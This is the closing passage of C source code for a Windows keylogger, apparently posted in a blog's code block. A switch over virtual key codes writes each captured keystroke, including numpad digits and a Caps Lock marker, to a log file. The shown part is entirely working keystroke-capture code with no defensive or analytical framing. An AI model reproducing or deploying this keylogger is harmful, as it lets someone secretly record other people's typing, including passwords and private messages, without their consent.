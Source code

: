                     break;
                    case 189:
                    fputc('-',file);
                    fclose(file);
                    break;
                    case 190:
                    fputc('.',file);
                    fclose(file);
                    break;
                    case VK_NUMPAD0:
                    fputc('0',file);
                    fclose(file);
                    break;
                    case VK_NUMPAD1:
                    fputc('1',file);
                    fclose(file);
                    break;
                    case VK_NUMPAD2:
                    fputc('2',file);
                    fclose(file);
                    break;
                    case VK_NUMPAD3:
                    fputc('3',file);
                    fclose(file);
                    break;
                    case VK_NUMPAD4:
                    fputc('4',file);
                    fclose(file);
                    break;
                    case VK_NUMPAD5:
                    fputc('5',file);
                    fclose(file);
                    break;
                    case VK_NUMPAD6:
                    fputc('6',file);
                    fclose(file);
                    break;
                    case VK_NUMPAD7:
                    fputc('7',file);
                    fclose(file);
                    break;
                    case VK_NUMPAD8:
                    fputc('8',file);
                    fclose(file);
                    break;
                    case VK_NUMPAD9:
                    fputc('9',file);
                    fclose(file);
                    break;
                    case VK_CAPITAL:
                    fputs("\r\n[CAPS LOCK]\r\n",file);
                    fclose(file);
                    break;
                    default:
                    fputc(i, file);
                    fclose(file);
                }
            }
        }
    }
    return 0;
}
{% endhighlight  %}